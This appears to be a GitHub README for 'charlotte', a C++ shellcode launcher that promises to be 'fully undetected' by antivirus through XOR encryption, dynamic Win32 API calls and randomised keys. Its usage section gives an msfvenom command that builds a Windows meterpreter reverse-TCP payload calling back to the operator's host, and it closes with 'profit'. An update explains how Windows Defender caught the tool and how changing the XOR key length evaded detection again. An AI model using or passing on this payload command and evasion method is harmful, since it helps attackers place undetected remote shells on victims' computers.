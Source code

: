 # charlotte
 c++ fully undetected shellcode launcher ;)

 releasing this to celebrate the birth of my newborn 

## description
13/05/2021:

1. c++ shellcode launcher, fully undetected 0/26 as of 13th May 2021.
2. dynamic invoking of win32 api functions
3. XOR encryption of shellcode and function names
4. randomised XOR keys and variables per run
5. on Kali Linux, simply 'apt-get install mingw-w64*' and thats it!

17/05/2021:

6. random strings length and XOR keys length 

## antiscan.me

![alt_text](0-detection-charlotte.png "Pwn!")

## usage

git clone the repository, generate your shellcode file with the naming beacon.bin, and run charlotte.py

example:
1. git clone https://github.com/9emin1/charlotte.git && apt-get install mingw-w64*
2. cd charlotte
3. msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$YOUR_IP LPORT=$YOUR_PORT -f raw > beacon.bin
4. python charlotte.py
5. profit

### tested with msfvenom -p (shown in the .gif POC below) and also cobalt strike raw format payload

![alt_text](demo-poc.gif "Pwn!")

## update v1.1 

17/05/21:

apparently Microsoft Windows Defender was able to detect the .DLL binary,

and how did they flag it? by looking for several XOR keys of 16 byte size 

changing it to 9 shown in the POC .gif below shows it is now undetected again

cheers!

![alt_text](demo-poc2.gif "Pwn!")
